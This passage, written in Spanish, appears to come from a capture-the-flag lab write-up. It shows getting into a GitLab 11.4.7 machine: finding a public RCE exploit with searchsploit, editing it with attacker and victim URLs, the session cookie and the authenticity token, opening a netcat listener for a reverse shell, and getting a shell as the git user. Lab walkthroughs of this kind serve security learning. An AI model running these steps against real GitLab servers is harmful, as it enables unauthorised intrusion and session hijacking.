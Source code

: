### Gitlab {-}

```bash
searchsploit gitlab 11.4.7
```

Aqui vemos exploits que nos permite hacer Remote Code Execution.


## Vuln exploit & Gaining Access {-}

### Ganando accesso con Gitlab {-}

```bash
searchsploit -m 49257
mv 49257.py gitlab_rce.py
vi gitlab_rce.py
```

Mirando el codigo, vemos que este exploit nos permiteria entablar una reverse shell. Modificamos los datos

- url de la maquina victima
- url de la maquina de atacante
- puerto de escucha
- usuario gitlab
- authenticity_token
- cookie de session.

El valor del authenticity token se puede encontrar en el codigo fuente de la pagina de gitlab.
El valor del cookie de session se puede ver en la pagina de gitlab dandole a 
```bash
 Ctrl+Shift+c > Almacenamiento 
```
 y podemos ver el 
```bash
 _gitlab_session 
```


1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script con el commando 
```bash
 python3 gitlab_rce.py 
```



```bash
whoami
#Output
git
```
